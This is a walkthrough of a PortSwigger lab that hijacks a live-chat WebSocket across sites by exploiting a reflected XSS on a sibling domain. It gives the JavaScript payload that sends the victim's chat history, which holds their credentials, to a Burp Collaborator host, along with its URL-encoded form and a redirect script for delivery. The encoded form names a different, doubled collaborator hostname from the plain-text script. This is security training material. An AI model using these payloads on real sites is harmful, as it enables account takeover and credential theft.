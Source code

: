 [Source](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)
## Task
The live chat feature in this lab is vulnerable to `WebSocket` cross-site hijacking (`CSWSH`) attacks. To solve the task, we need to log in to the victim's account.
To do this, we use the provided exploit server to perform a `CSWSH` attack and dump the victim's chat history to the default `Burp Collaborator` server. The chat history contains the login credentials in plain text.
If you haven't already, we recommend that you first read our `WebSocket` vulnerabilities topic before attempting this task.
## Solution
Go to the task site

![image](images/20241225195225.png)

Go to `Live chat`

![image](images/20241225195306.png)

Send a message to the chat and intercept the request via `Burp Suite`

![image](images/20241225195410.png)

![image](images/20241225195459.png)

Go to `HTTP history` and look for a `GET` request with `/chat`

![image](images/20241225195608.png)

Note that the request does not contain any unpredictable tokens, so it may be vulnerable to CSWSH if we can bypass the `SameSite cookie` restrictions. Refresh the chat page.
Go to the tab `Proxy > WebSockets history`. We see that when refreshing the page, the browser sends the message `READY` to the server. In response, the server sends the entire chat history.

![image](images/20241225200114.png)


![image](images/20241225200134.png)


![image](images/20241225200145.png)


![image](images/20241225200159.png)


![image](images/20241225200213.png)


![image](images/20241225200224.png)

Go to `Burp Collaborator` and click `Copy to clipboard`

![image](images/20241225200323.png)

On the site, go to `Exploit Server` and paste the script into the `Body` field based on the following template demonstrating the `Proof of Concept` for CSWSH:

```HTML
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

![image](images/20241225200626.png)

Save the exploit and view it ourselves.
Go back to `Burp Suite`, open the `Collaborator` tab again and click `Poll now`. We see that we received an HTTP interaction indicating that we opened a new `live chat` connection to the target site.

![image](images/20241225200822.png)
Note that although we confirmed the CSWSH vulnerability, we were only able to dump the chat history for the new session, which is not very useful.
Go to the `Proxy > HTTP history` tab and look for the `WebSocket` request initiated by our script. Most likely, this is the last `GET /chat` request.

![image](images/20241225201125.png)

Notice that our session cookie is missing from the request. We look at the response and notice that the site explicitly sets the `SameSite=Strict` attribute for session `cookies`. This prevents the browser from including these `cookies` in cross-site requests.
In `Burp Suite`, we examine `Proxy history` and notice that responses to requests for resources (such as scripts and images) contain the `Access-Control-Allow-Origin` header, pointing to the related domain `cms-YOUR-LAB-ID.web-security-academy.net`.

![image](images/20241225201952.png)

We follow this link. We see an additional login form.
```URL
cms-YOUR-LAB-ID.web-security-academy.net
```

![image](images/20241225202045.png)

We send some random credentials and notice that the entered username is reflected in the error message `Invalid username`.

![image](images/20241225202156.png)

We try to inject an XSS payload via the username parameter, for example:
```HTML
<script>alert(document.cookie)</script>
```

![image](images/20241225202322.png)

We see that `alert()` is triggered, confirming the vulnerability in the form of reflected XSS.
Send a `POST /login` request with an XSS payload to `Burp Repeater`.

In `Burp Repeater`, right-click and select `Change request method` to change the method to `GET`. Verify that the response remains the same.

![image](images/20241225202506.png)

Right-click the request again and select `Copy URL`. Navigate to this link in the browser and verify that we can still trigger the XSS. Since this sibling domain is considered part of the same site, we can exploit the XSS vulnerability to launch a CSWSH attack without being blocked by `SameSite`.

![image](images/20241225202559.png)

Recreate the CSWSH script we tested on the exploit server:
```HTML
<script>
    var ws = new WebSocket('wss://0a35001f037873238299de4900b000c3.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://2ilk0ki0mc0qa4z5ys5qnblev51wpodd.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
Encode the entire script in URL format (URL encode).

![image](images/20241225202938.png)

```URL
%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%33%35%30%30%31%66%30%33%37%38%37%33%32%33%38%32%39%39%64%65%34%39%30%30%62%30%30%30%63%33%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%6c%79%6e%33%67%33%79%6a%32%76%67%39%71%6e%66%6f%65%62%6c%39%33%75%31%78%62%6f%68%66%35%61%74%7a%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
```

![image](images/20241225203051.png)
Then we go back to the exploit server and create a script that will force the visitor's browser to send the same GET request that we just tested, substituting the encoded CSWSH payload as the value of the `username` parameter. One option:
```HTML
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

![image](images/20241225203212.png)

Click `Store` and `Deliver exploit to victim`. Then click `Access log`

![image](images/20241225211117.png)

We see the victim's log lines. Copy them, cut them, leaving only the encoded text and decode it.

![image](images/20241225211238.png)

Authorize as user `carlos`

![image](images/20241225211258.png)
